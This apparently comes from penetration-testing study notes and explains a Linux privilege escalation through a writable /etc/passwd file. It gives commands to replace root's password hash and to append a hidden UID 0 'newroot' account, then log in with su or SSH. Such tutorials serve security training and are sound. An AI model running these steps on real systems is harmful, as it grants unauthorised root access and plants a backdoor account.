 ### **Overview of /etc/passwd Vulnerabilities**

The `/etc/passwd` file is crucial in Linux systems as it stores essential information about user accounts. It is readable by all users on the system but should only be writable by the root user. Any misconfiguration in its permissions can lead to severe security risks.

### **Step 1: Modifying /etc/passwd to Change Root Password**

If `/etc/passwd` is writable, attacker can modify the password hash of the root user to a known value, enabling unauthorized root access. This is feasible if the system uses legacy behavior where `/etc/passwd` can contain password hashes.

1.  Confirm if /etc/passwd is writable.  
    `ls -l /etc/passwd`  
    
    ![](../../../img/Linux-Environment/140.png)
    
2.  Use OpenSSL to generate a new password hash with a password of your choice:.  
    `openssl passwd -1 "hackfast"`  
    
    ![](../../../img/Linux-Environment/141.png)
    
3.  Replace the root user password hash.  
    `nano /etc/passwd`  
    
    ![](../../../img/Linux-Environment/142.png)
    
4.  Use the new password to switch to the root user.  
    `su`  
    
    ![](../../../img/Linux-Environment/143.png)
    
5.  Alternatively, log in with SSH:  
    `ssh root@[IP-ADRESS]`
    

### **Step 2: Adding a New Root Account**

If appending is possible but not modification, you can add a new user with root privileges by assigning them the root user ID (UID 0).

1.  Add a new entry with UID 0 and your known password hash.  
    `echo 'newroot:[hash]:0:0:root:/root:/bin/bash' >> /etc/passwd`
    
2.  Log in as the new user without needing root actual password.  
    `su newroot`
    
3.  Alternatively, log in with SSH:  
    `ssh newroot@[IP-ADRESS]`